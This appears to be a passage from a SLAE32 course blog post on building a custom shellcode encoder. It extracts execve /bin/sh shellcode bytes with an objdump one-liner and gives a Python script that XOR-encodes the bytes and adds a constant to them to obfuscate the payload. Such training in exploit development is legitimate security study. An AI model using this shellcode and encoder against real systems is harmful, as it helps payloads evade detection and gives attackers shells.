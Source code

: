 In order to extract the shellcode, we first have to compile the `Assembly` code. This process consists of assembling and linking, which are described in previous blog posts. So we will use the bash  script `compile.sh` again.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ ./compile execve-stack
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

Now, in order to actually extract the shellcode from the `execve-stack` executable we use the `objdump` one-liner, which displays information from object files as described previously:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ objdump -d ./execve-stack | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

After that, paste the extracted shellcode at the `shellcode` variable of the python script `xor-add-encoder.py`, which performs `XOR` operation on each byte of the shellcode with the static key `0xAA` and then adds a constant number, which in our case is `1`. It should be noted that the key of `XOR` must not exist inside the shellcode, because it will lead to a nullbyte (`0x00`).

The whole `Python` script is the following:

```python
#!/usr/bin/python

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""

add_value = 1

print 'XOR - ADD Encoded shellcode: \n'

for x in bytearray(shellcode):
	# XOR encoding
	y = (x ^ 0xAA) + add_value

	encoded += '\\x'
	encoded += '%02x' % y

	encoded2 += '0x'
	encoded2 += '%02x,' % y

print encoded

print encoded2

print 'Shellcode Length: %d\n' % len(bytearray(shellcode))
```
